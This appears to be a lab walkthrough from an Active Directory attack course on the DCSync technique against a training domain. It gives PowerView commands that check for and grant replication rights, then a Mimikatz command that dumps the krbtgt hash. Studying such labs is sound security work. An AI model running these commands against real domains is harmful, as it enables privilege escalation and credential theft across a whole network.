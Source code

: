 ```yaml
---
description: >-
  Task -  Check if student has Replication (DCSync) rights. If yes, execute the
  DCSync attack to pull hashes of the krbtgt user. If no, add the replication
  rights for the student and execute the DCSync
---
```


# Obj 12 DCSync

{% hint style="success" %}
1. If the student has replication rights we can execute the DCSync attack to pull hashes of the krbtgt use
2. If the current user does NOT have replication rights we can add the replication rights for the student and execute the DCSync attack to pull hashes of the krbtgt user&#x20;
{% endhint %}

## Check to see if the user has replication rights

We are going to start from an elevated shell, run invishell and load powerview.ps1

### Now we can run the following command to see if the user has replication rights

```
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```

## <mark style="color:orange;">- IF USER DOES NOT HAVE REPLICATION RIGHTS -</mark>

#### We can add the replication rights to the user. We need to start a new process on the user machine, run invishell and load powerview.ps1

```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity studentx-Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

### We can now go back to our other shell and check to see if we have replication rights now.

```
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentx"}
```

### Once we have replication rights for our user we can use the DCSync attack to dump the creds of krbtgt user

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
